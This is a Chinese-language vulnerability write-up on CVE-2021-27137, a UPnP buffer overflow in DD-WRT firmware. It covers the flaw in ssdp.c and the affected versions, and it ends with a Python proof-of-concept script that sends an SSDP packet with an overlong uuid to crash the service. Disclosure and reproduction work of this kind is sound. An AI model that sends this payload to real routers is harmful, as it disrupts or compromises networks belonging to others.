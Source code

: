 # DD-WRT UPNP缓冲区溢出漏洞 CVE-2021-27137

## 漏洞描述

默认情况下，DD-WRT中的UPNP处于禁用状态，并且仅在内部网络接口上侦听。

UPNP本质上是未经身份验证的UDP形式的协议–由于无法对协议强制执行身份验证，因此它既易于使用又具有不安全性。

如果DD-WRT启用了UPNP服务，则坐在存在DD-WRT设备的LAN上的远程攻击者可以通过发送一个过长的`uuid`值来触发缓冲区溢出。

根据部署DD-WRT的平台的不同，可能存在缓解措施，也可能没有缓解措施，例如ASLR等，这使得可利用性取决于安装DD-WRT的平台。

## 漏洞影响

> [!NOTE]
>
> DD-WRT < 45723 版本

## 漏洞复现

通过查看源代码，`ssdp.c`可以很容易地发现有问题的代码：

![](image/dd-1.png)

用户提供的数据的未绑定副本被复制到缓冲区中，该缓冲区的大小限制为128个字节。

由于默认情况下未启用UPNP服务，因此重新创建漏洞的第一步是启用将自动启动该服务的服务

![](image/dd-2.png)

启动PoC脚本将触发upnp服务崩溃，这可以在启动以下python脚本几秒钟后看到

![](image/dd-3.png)

## 漏洞利用POC

```python
import socket
target_ip = "192.168.15.124" # IP Address of Target
off = "D"*164
ret_addr = "AAAA" 
payload = off + ret_addr
packet = \
    'M-SEARCH * HTTP/1.1\r\n' \
    'HOST:239.255.255.250:1900\r\n' \
    'ST:uuid:'+payload+'\r\n' \
    'MX:2\r\n' \
    'MAN:"ssdp:discover"\r\n' \
    '\r\n'
s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM, socket.IPPROTO_UDP)
s.sendto(packet.encode(), (target_ip, 1900) )
```

